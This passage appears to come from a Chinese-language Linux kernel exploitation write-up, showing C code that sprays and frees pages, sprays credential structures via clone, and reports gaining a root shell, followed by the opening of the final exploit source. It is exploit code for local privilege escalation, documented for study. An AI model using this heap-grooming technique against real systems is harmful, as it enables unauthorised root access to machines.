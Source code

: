 ```c
        if (!pid) {
            sleep(10000);
        }
        else if (pid < 0) {
            errExit("fork");
        }
    }

    if (!fork()) {
        unshare_setup(getuid(), getgid());
        spray_pages();
    }

    for (int i = 0; i < INITIAL_PAGE_SPRAY; i++) {
        spraypage_send(ALLOC, i);
    }

    puts("\033[32m[*] Initial pages sprayed\033[0m");
    puts("\033[32m[+] Start to free odd pages\033[0m");

    for (int i = 1; i < INITIAL_PAGE_SPRAY; i += 2) {
        spraypage_send(FREE, i);
    }

    puts("\033[32m[+] Start to spray creds\033[0m");
    for (int i = 0; i < FORK_SPRAY; i++) 
        pid_t pid = __clone(CLONE_FLAGS, &check_and_wait);
}
```



既然 victim obj 已经喷完了，那么就开始继续释放偶数页面，然后喷 vuln obj 了。喷完之后，我们设置 uid 位为 1，成功拿到了 rootshell



![image-20241106201611213](https://oss.nova.gal/img/image-20241106201611213.png)

最终 exp：

```c
#include "kernel.h"

#define CLONE_FLAGS CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND

#define INITIAL_PAGE_SPRAY 1000
#define VULN_SPRAY 400
#define CRED_JAR_SPARY 512
#define SIZE 0x1000
#define PAGENUM 1

int fd;
int sprayfd_child[2], sprayfd_parent[2];
int rootfd[2];
int socketfds[INITIAL_PAGE_SPRAY];

enum spraypage_cmd {
    ALLOC,
    FREE,
    QUIT
};

struct ipc_req_t {
    enum spraypage_cmd cmd;
    int idx;
};
```
